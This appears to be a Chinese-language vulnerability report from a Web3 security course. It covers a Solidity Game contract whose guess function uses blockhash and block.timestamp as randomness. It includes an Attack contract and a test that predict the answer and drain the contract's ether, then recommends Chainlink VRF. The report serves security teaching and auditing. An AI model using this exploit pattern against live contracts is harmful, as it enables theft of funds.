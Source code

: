 # block.number 與 block.timestamp 公開可見，攻擊者使用相同算法即可持續猜中獲勝

# Lines of code

https://github.com/z-institute/Web3-Security-Dev-Batch-1-HW/blob/Z24028008/w4/src/Game.sol#L8

# Vulnerability details

block.number 與 block.timestamp 在鏈上都是可見、可被監控的，因此不適合作為隨機數的參數，

```solidity
function guess(uint256 _guess, address _receiver ) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = _receiver.call{value: address(this).balance}("");
            require(sent, "Failed to send Ether");
        }
    }
```

攻擊者可設置 Game 合約接口，並使用相同的參數與算法，再調用 guess 函數將值傳入，即可猜中獲勝。

# Impact

任何人在鏈上皆可見 block.number 與 block.timestamp 的值，只要設置 Game 合約接口，並使用相同的參數與算法即可算出 guess 函數的答案，調用 guess 函數將值傳入即可猜中獲勝。

# PoC

以下程式碼用以驗證漏洞。

撰寫 Attack 合約：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGame {
    function guess(uint256 _guess, address _receiver) external;
}

contract Attack {
    IGame public gameContract;

    constructor(address _gameContract) {
        gameContract = IGame(_gameContract);
    }

    function attack() public {
        uint256 answer = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        gameContract.guess(answer, msg.sender);
    }
}
```

調用 Attack 合約進行攻擊：

```solidity
function testExploit() public payable {
    /**
        * CODE YOUR EXPLOIT HERE
        */
    vm.prank(attacker);
    attack.attack();
    /**
        * SUCCESS CONDITIONS
        */
    assertEq(address(attacker).balance, 1 ether);
}
```

# Recommendation

Use ChainLink VRF
